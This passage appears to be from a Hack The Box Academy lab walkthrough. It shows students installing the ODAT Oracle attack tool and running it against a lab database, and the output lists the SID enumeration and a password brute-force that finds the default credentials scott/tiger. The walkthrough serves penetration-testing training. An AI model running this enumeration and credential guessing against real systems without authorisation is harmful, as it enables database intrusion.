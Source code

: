 ```
┌─[eu-academy-5]─[10.10.14.97]─[htb-ac-8414@htb-ysmlyx7eba]─[~]
└──╼ [★]$ wget https://download.oracle.com/otn_software/linux/instantclient/214000/instantclient-basic-linux.x64-21.4.0.0.0dbru.zip
wget https://download.oracle.com/otn_software/linux/instantclient/214000/instantclient-sqlplus-linux.x64-21.4.0.0.0dbru.zip 
sudo mkdir -p /opt/oracle
sudo unzip -d /opt/oracle instantclient-basic-linux.x64-21.4.0.0.0dbru.zip
sudo unzip -d /opt/oracle instantclient-sqlplus-linux.x64-21.4.0.0.0dbru.zip
export LD_LIBRARY_PATH=/opt/oracle/instantclient_21_4:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
source ~/.bashrc
cd ~
git clone https://github.com/quentinhardy/odat.git
cd odat/
pip install python-libnmap
git submodule init
git submodule update
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor passlib python-libnmap
sudo apt-get install build-essential libgmp-dev -y
pip3 install pycryptodome
<SNIP>
```

Subsequently, students need to use `odat.py` to enumerate the Oracle database services (providing the option `c` when prompted to continue and then `s` after attaining credentials):

Code: shell

```shell
python3 odat.py all -s STMIP
```

```
┌─[us-academy-1]─[10.10.14.91]─[htb-ac-413848@htb-qkf0vmr2o8]─[~/odat]
└──╼ [★]$ python3 odat.py all -s 10.129.19.130  

[+] Checking if target 10.129.19.130:1521 is well configured for a connection...
[+] According to a test, the TNS listener 10.129.19.130:1521 is well configured. Continue...

<SNIP>

[2] (10.129.19.130:1521): Searching valid SIDs
[2.1] Searching valid SIDs thanks to a well known SID list on the 10.129.19.130:1521 server
[+] 'XE' is a valid SID. Continue...                        ###############################################################  | ETA:  00:00:01 

<SNIP>

The login cis has already been tested at least once. What do you want to do:                                                 | ETA:  00:06:57 
- stop (s/S)
- continue and ask every time (a/A)
- skip and continue to ask (p/P)
- continue without to ask (c/C)
c
<SNIP>
[!] Notice: 'oracle_ocm' account is locked, so skipping this username for password                                           | ETA:  00:03:43 
[!] Notice: 'outln' account is locked, so skipping this username for password#####                                           | ETA:  00:03:20 
[+] Valid credentials found: scott/tiger. Continue...       #########################################                        | ETA:  00:01:48 
```